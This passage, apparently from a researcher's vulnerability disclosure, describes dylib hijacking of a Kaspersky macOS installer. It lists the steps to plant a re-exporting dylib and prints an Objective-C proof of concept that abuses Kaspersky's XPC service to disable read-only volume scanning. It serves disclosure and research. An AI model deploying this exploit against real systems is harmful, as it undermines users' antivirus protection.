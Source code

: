 1. We compile our dylib with reexporting the original dylib, which we renamed to `libkl_appkit_orig.dylib`.
2. We correct the dylib path in the compiled dylib
3. We sign the dylib, either with a valid or adhoc signature. Here I used a valid.
4. Lastly we copy the dylib into its place

Then if we execute the installer our dylib will be loaded.

The POC looks as follows:

```objectivec
#import <Foundation/Foundation.h>

static NSString* kXPCHelperMachServiceName = @"2Y8XE5CQ94.com.kaspersky.kav.sysext";

@protocol IPCServiceProtocol <NSObject>
- (void)getEndpointForProtocol:(NSString *)arg1 withReply:(void (^)(NSError *, NSXPCListenerEndpoint *))arg2;
@end

@protocol FileMonitorProtocol
- (void)DisableReadonlyVolumeScan:(BOOL)arg1 reply:(void (^)(BOOL))arg2;
- (void)StartFileMonitor:(void (^)(BOOL))arg1;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
        

        NSString*  _serviceName = kXPCHelperMachServiceName;

        NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
    
        [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(IPCServiceProtocol)]];
    
        [_agentConnection resume];

        id agent = [_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error)
        {
            NSLog(@"[-] Something went wrong");
            NSLog(@"[-] Error: %@", error);
        }];

        //we first get the FileMonitorProtocol as an NSXPCListenerEndpoint
        [agent getEndpointForProtocol:@"FileMonitorProtocol" withReply:^(NSError * err, NSXPCListenerEndpoint * endpoint) {
            NSLog(@"Reply, %@", err);
            
            //once we get the NSXPCListenerEndpoint, we can create a new connection and use its methods
            NSXPCConnection* processConnection = [[NSXPCConnection alloc] initWithListenerEndpoint:endpoint];
            [processConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(FileMonitorProtocol)]];
            [processConnection resume];
     
            id remoteObjectProxy = [processConnection remoteObjectProxy];
                 
            [remoteObjectProxy DisableReadonlyVolumeScan:1 reply:^(BOOL b){
                 NSLog(@"Reply, %hhd", b);
            }];
        }];

```
